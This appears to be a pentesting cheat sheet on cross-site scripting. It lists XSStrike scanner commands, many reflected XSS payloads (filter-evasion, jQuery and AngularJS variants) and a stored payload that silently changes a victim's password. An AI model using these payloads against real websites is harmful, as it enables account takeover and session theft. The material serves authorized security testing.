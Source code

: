 ```yaml
---
title: Cross-Site Script (XSS)
desc: 
tags: [Burp Suite, Cross, Site, Web, XSS]
alts: [Cookie-Hijacking]
render_with_liquid: true
---
```


{% raw %}

## 1. Automation

- **[XSStrike](https://github.com/s0md3v/XSStrike){:target="_blank"}**

    XSS scanner.

    ```sh
    # GET request
    python xsstrike.py -u http://vulnerable.com/?param=test

    # POST reqeust
    python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"

    # data as JSON
    python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
    ```

<br />


## 2. Manual

1. **URL Parameters**

    1. **Common Payloads**

        ```
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q='></script><script>alert(1)</script>

        /?q=" src=1 onerror=alert(1)>
        /?q=<><img src=1 onerror=alert(1)>
        /?q="><img src=1 onerror=alert(1)>
        /?q="></span><img src=1 onerror=alert(1)>
        /?q="><svg onload=alert(1)>

        /?q=javascript:alert(1)
        /?q=\"-alert(1)//

        /?q=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

        /?q=<a onmouseover=alert(1)>click</a>
        /?q=" onmouseleave='alert(1)'">

        /?q=<img src="jav ascript:alert(1)">
        /?q=<img src="jav&#x09;ascript:alert(1)">
        /?q=<img src="jav&#x0A;ascript:alert(1)">


        /?q=&subparam=--><script>alert(1)</script>
        /index.php#value='><script>alert(1)</script>
        ```

    2. **JQuery**

        ```
        https://vulnerable.com/#<img src=1 onerror=alert(1)>
        <iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
        ```

    3. **AngularJS**

        If you find **"<html ng-app>"** or **"<div ng-app>"** in the HTML source code, you may be able to abuse it by XSS.

        ```
        https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
        ```

2. **POST Parameters**


    POST params are almost the same as URL params, so try the common payloads of section 1.  
    Ant the following ones.

    ```
    title=<a href="http://localhost/newUser?username=test&password=test">test</a>&comment=hello
    ```

    1. **Change User Profiles**

        If the website allows users to change passwords from the URL params...

        ```
        /profile?new_password=password
        ```

        Submit the payload to user input forms such as messages, comments, forums...

        ```
        <script>fetch('/profile?new_password=password');</script>
        ```

{% endraw %}